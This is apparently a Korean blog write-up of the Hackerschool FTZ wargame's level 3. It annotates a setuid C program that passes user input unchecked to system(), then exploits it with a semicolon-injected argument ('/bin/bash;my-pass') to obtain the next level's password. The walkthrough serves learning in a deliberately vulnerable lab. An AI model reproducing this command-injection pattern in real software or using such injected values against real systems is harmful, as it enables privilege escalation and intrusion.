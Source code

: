 ```yaml
---
layout: post
title: "Hackerschool FTZ-level3"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/22/
---
```

```bash
login as: level3 
level3@~~~~'s password: 
[level3@ftz level3]$
```


level3/can you fly?로 접속하자. 빠르게 hint파일을 읽었다.


```bash
[level3@ftz level3]$ ls 
hint  public_html  tmp 
[level3@ftz level3]$ cat hint
```




다음 코드는 autodig의 소스이다. 
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){ 

    char cmd[100]; 

    if( argc!=2 ){ 
        printf( "Auto Digger Version 0.9\n" ); 
        printf( "Usage : %s host\n", argv[0] ); 
        exit(0); 
    } 

    strcpy( cmd, "dig @" ); 
    strcat( cmd, argv[1] ); 
    strcat( cmd, " version.bind chaos txt"); 

    system( cmd ); 

} 

이를 이용하여 level4의 권한을 얻어라. 

more hints. 
- 동시에 여러 명령어를 사용하려면? 
- 문자열 형태로 명령어를 전달하려면?
```


C 프로그램의 소스가 나왔다. 해킹을 하기 위해서는 프로그래밍을 할 줄 알아야 한다는 말이 이렇게 증명된다는 생각이 들었다. 간단하게 주석을 달아보자면.


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){ 

    char cmd[100]; 

    if( argc!=2 ){ //프로그램을 시작하며 주는 인좌의 갯수가 2가 아니라면 
        printf( "Auto Digger Version 0.9\n" ); 
        printf( "Usage : %s host\n", argv[0] ); 
        exit(0);//프로그램 종료 
    } 

    strcpy( cmd, "dig @" );//cmd를 dig@로 
    strcat( cmd, argv[1] );//cmd 뒤에 두번째 명령어를 덧붙인다. 
    strcat( cmd, " version.bind chaos txt");//cmd 뒤에 version.bind chaos txt를 덧붙인다. 

    system( cmd );//cmd가 가진 문자열을 실행시킨다.  

}
```


이해할 수 있을 때까지 읽어 보자.


```bash
[level3@ftz level3]$ find / -user level4 2> /dev/null 
/bin/autodig
```


autodig의 주소를 find명령어로 찾아냈다. 


```bash
[level3@ftz level3]$ cd /bin 
[level3@ftz bin]$ ./autodig my-pass /bin/bash 
Auto Digger Version 0.9 
Usage : ./autodig host
```


autodig에 인좌를 두개 보낸듯 싶지만, 그렇지 않은거 같다. 프로그램이 그대로 종료된 것을 보니 말이다.

인좌를 두개 보내기 위해서는 ""<--쌍따옴표가 필요하다.


```bash
[level3@ftz bin]$ ./autodig "/bin/bash;my-pass"



Level4 Password is "suck my brain". 
[level3@ftz bin]$



잠시 기다리니 level4의 정답이 나왔다.  

level4's password: "suck my brain"
```
